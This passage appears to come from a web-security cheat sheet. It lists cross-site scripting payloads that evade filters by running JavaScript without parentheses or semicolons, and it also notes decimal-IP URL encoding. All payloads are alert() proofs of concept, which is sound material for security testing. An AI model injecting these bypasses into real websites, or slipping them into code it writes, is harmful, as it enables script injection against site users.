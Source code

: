 Convert IP address into decimal format: IE. `http://192.168.1.1` == `http://3232235777`
http://www.geektools.com/cgi-bin/ipconv.cgi

### Bypass parenthesis for string

Úselo en un vector HTML o inyección de javascript cuando no se permiten paréntesis:

```javascript
alert`1`

setTimeout`alert\u0028document.domain\u0029`;

setTimeout`alert\x28document.domain\x29`

setInterval`alert\x28document.domain\x29`

setTimeout'alert\x28document.domain\x29'

setInterval'alert\x28document.domain\x29'

alert`1`

alert'1'

alert"1"

<svg onload=alert&lpar;1&rpar;>

<svg onload=alert&#40;1&#41>

(alert)(1)

a=alert,a(1)

[1].find(alert)

top["al"+"ert"](1)

top[/al/.source+/ert/.source](1)

al\u0065rt(1)

top['al\145rt'](1)

top[8680439..toString(30)](1)

holis"><svg onload=top[/al/.source+/ert/.source](1)>
```

### Bypass parenthesis and semi colon

```javascript
// From @garethheyes
<script>onerror=alert;throw 1337</script>
<script>{onerror=alert}throw 1337</script>
<script>throw onerror=alert,'some string',123,'haha'</script>

// From @terjanq
<script>throw/a/,Uncaught=1,g=alert,a=URL+0,onerror=eval,/1/g+a[12]+[1337]+a[13]</script>

// From @cgvwzq
<script>TypeError.prototype.name ='=/',0[onerror=eval]['/-alert(1)//']</script>
```
